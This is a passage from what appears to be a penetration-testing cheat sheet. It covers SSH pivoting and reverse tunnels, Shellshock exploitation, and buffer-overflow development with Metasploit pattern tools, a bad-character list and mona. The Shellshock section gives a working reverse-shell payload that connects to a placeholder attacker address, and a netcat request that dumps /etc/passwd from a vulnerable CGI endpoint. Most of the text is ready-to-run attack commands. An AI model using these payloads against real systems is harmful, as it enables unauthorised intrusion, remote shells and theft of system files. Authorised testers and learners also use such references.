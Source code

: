 	proxychains4 ssh -f -N -D 8090 hackerman@10.1.1.1 -p 222
	
Send reverse ssh tunnel to your machine

	ssh -R 8090:localhost:8090 YOURIPADDRESS
	
## ShellShock
	
	() { :; };
	
Reverse shell

	()  { :; }; /bin/bash -c /bin/bash -i  >& /dev/tcp/YOURIPADDRESS/PORT 0>&1 &
		
	echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
	
	
## Buffer Overflow 

Generate unique pattern using metasploit module

	/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
	
Find unique pattern that EIP displays

	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 42376942
	
Check for bad chars, insert into script then check debugger for any breaks in sequence
	
	badchars = ( 
	 "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" 
	 "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" 
	 "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
	 "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40" 
	 "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
	 "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60" 
	 "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
	 "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80" 
	 "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
	 "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0" 
	 "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
	 "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0" 
	 "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0" 
	 "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
	 "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
	 "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
		

Find JMP ESP address ("\xff\xe4") using mona.py in debugger

	!mona find -s "\xff\xe4" -m nameofprogram.dll
